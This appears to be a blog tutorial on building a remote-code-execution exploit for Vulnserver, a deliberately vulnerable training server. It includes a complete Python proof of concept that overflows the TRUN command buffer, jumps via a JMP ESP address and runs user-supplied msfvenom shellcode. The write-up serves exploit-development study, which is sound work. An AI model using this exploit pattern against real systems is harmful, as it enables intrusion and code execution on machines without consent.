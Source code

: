 ```yaml
---
title: Exploit Development - Vulnserver v1.00 Part 2
published: 2025-10-22
description: RCE exploit development against Vulnserver v1.00
tags: [binary exploitation, exploit, vulnerability research]
category: Exploit Development
draft: false
lang: en
---
```


# Vulnserver v1.00 RCE Exploit Dev

## YouTube
<iframe width="100%" height="468" src="https://www.youtube.com/embed/Rs7UawYGYUg?si=9-AftjVomWWhah4X" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

## Exploit Overview
![x32dbg](./debugger_view.png)

In x32dbg, if you go to **Symbols → essfunc.dll → EssentialFunc3** you’ll see code like the one above.
Here, the instruction `JMP ESP` (located at **0x625011BB**) is critical for control-flow hijacking.
It transfers execution to the address held in the ESP (Extended Stack Pointer) register, which points to the top of the stack.
By overwriting that location we can redirect execution to our mapped shellcode and ultimately run that shellcode.

## PoC
```python
from argparse import ArgumentParser
from socket import *
import struct

def createPayload(shellcode_path: str):
    data = b"A" * 2006
    return_address = struct.pack("<L", 0x625011BB)
    nop_sled = b"\x90" * 50
    shellcode = b""

    with open(shellcode_path, "rb") as fp:
        shellcode = fp.read()
        fp.close()

    payload = b"TRUN \x2E"
    payload += data
    payload += return_address
    payload += nop_sled
    payload += shellcode

    return payload

def exploit(ip: str, port: int, shellcode_path: str):
    print("[~] Generating payload...")
    payload = createPayload(shellcode_path)
    print("[+] Payload generated")

    s = socket(AF_INET, SOCK_STREAM)
    print(f"[~] Connecting to the target: [{ip}]:{port}")
    s.connect((ip, port))

    print("[~] Waiting for a connection message...")
    conn_msg = s.recv(65535)
    print(f"[+] A connection message received: {conn_msg.decode()}")

    print("[~] Sending the payload...")
    s.send(payload)
    s.close()
    print("[+] Connection closed")

    print("[+] RCE Exploit Completed")

def main():
    parser = ArgumentParser(
        prog="Vulnserver v1.00 Exploit",
        description="TRUN command BOF RCE Vulnerability"
    )
    parser.add_argument(
        "-t", "--target",
        type=str,
        help="Set target IPv4 address",
        required=True
    )
    parser.add_argument(
        "-p", "--port",
        type=int,
        help="Set target port number",
        required=True
    )
    parser.add_argument(
        "-s", "--shellcode",
        type=str,
        help="Set shellcode file path",
        required=True
    )

    args = parser.parse_args()

    target_ip       = str(args.target)
    target_port     = int(args.port)
    shellcode_path  = str(args.shellcode)

    exploit(target_ip, target_port, shellcode_path)

if __name__ == "__main__":
    main()
```

Since the program is x32, I converted the `JMP ESP` address to an x32 (32-bit) address using `struct` and `"<L"` like this:

```python
struct.pack("<L", 0x625011BB)
```

If we jump to that location, we'll find the shellcode mapped immediately after a 50 bytes of NOP sled.

After that, the shellcode provided by the user is loaded into memory and executed immediately. Below are the execution results:

![result](./result.png)

I used an x86 `calc.exe` execution shellcode generated by **msfvenom** (with bad characters removed), and confirmed that it executed successfully.